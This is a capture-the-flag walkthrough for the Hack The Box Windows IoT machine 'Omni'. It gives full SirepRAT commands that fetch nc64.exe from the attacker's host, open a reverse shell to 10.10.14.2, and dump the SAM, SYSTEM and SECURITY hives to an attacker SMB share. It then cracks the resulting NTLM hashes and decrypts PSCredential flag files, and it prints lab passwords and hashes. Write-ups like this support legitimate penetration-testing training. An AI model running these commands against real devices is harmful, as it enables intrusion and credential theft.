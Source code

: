```yaml
---
title: Walkthrough - Omni - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```



# Walkthrough - Omni, a Hack The Box machine

## About the machine

![Omni Machine Banner](img/omni.png)



| data |  |
|--------| ------- |
| Machine | Omni |
| Platform | Hackthebox |
| url | [link](https://app.hackthebox.com/machines/Omni) |
| OS | Windows |
| Difficulty | Easy |
| Points | 20 |
| ip | 10.129.2.27 |



## Getting user.txt flag

### Enumeration

```bash
sudo nmap -sV -sC $ip -p-
```

Results:

```
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
```




### Exploiting  TCP 29817/29820

SirepRAT. Investigate 


```bash

# testing for an existing file
python ~/tools/SirepRAT/SirepRAT.py $ip GetFileFromDevice --remote_path "C:\Windows\System32\drivers/etc/hosts" --v

# Place a nc64.exe file in the apache root server
sudo cp ~/tools/nc64.exe /var/www/html

# Start Apache server
sudo service apache2 start

# Upload nc64.exe: With SireRAT use cmd.exe in the victim's machine to lauch a powershell 
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\nc64.exe -uri http://10.10.14.2/nc64.exe'

python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\nc64.exe -uri http://10.10.14.2/nc64.exe'


# Open a listener in our attacker machine
rlwrap nc -lnvp 443

# Launch netcat in victim's machine via SirepRAT
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c c:\windows\system32\nc64.exe -e cmd 10.10.14.2 443'
```


After browsing around we can see these interesting files:

- C:\Data\Users\administrator\root.txt
- C:\Data\Users\app\user.txt
- C:\Data\Users\app\iot-admin.xml
- - C:\Data\Users\app\hardening.txt

user.txt and root.txt  are PSCredential files with this format. To decrypt their passwords, we will need  the user’s password and the administrator's password. There are several approaches to obtain them:

#### Path 1: creds in a file

Evaluate all files until you get to C:\Program Files\WindowsPowershell\Modules\PackageManagement. Use powershell so you can run:

```
ls -force
type r.bat
```

Result:

```
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```


#### Path 2: Dump sam/system/security hives, extract hashes and crack them

We will dump the SAM database to the attacker's machine. For that, first we will create a share in the attacker's machine:

```bash
# First crate the share CompData in our attacker's machine
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/ -username "username" -password "agreatpassword"
```


```bash
#  After that, establish the connection with nc
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c net use \\10.10.14.2\CompData /u:username agreatpassword'
```


After that we can dump the hives: sam, system, and security:

```bash
# Now we will dump the hives we need. First, the SAM database
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c reg save HKLM\sam \\10.10.14.2\CompData\sam'

# Secondly, system
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c reg save HKLM\system \\10.10.14.2\CompData\system'

# Thirdly, security
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c reg save HKLM\security \\10.10.14.2\CompData\security'
```


From the attacker's machine now, we can use secretdump.py to extract the hashes:

```bash
secretsdump.py -sam sam -security security -system system LOCAL
```


From that we will obtain the following NTLM hashes:

```
Impacket v0.10.1.dev1+20230511.163246.f3d0b9e - Copyright 2022 Fortra

[*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
```

We can crack them with hashcat:

```
hashcat -m 1000 -O -a3 -i hashes.txt
```


### Exploiting TCP 8080

Credentials obtained for user "app" and "administrator" are valid to login into the portal that we observed previously in port 8080.

Login as app, and go to the option "Run  Command"

![runcommnad](img/omni_01.png)


From the attacker's machine, get a terminal listening:

```bash
rlwrap nc -lnvp 443
```

In the Run command screen, run:

```
c:\windows\system32\nc64.exe -e cmd 10.10.14.2 443
```

The listener will display the connection. Now:

```
# Launch powershell
powershell

# Go to 
cd C:\Data\Users\app

# Decrypt the PSCredential file
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```

As a result your will obtain the user.txt's flag.


## Get root.txt

Logout from the portal as user "app" and login again as administrator.


From the attacker's machine, get a terminal listening:

```bash
rlwrap nc -lnvp 443
```

In the Run command screen, run:

```
c:\windows\system32\nc64.exe -e cmd 10.10.14.2 443
```

The listener will display the connection. Now:

```
# Launch powershell
powershell

# Go to 
cd C:\Data\Users\administrator

# Decrypt the PSCredential file
(Import-CliXml -Path root.txt).GetNetworkCredential().Password
```

As a result your will obtain the root.txt's flag.
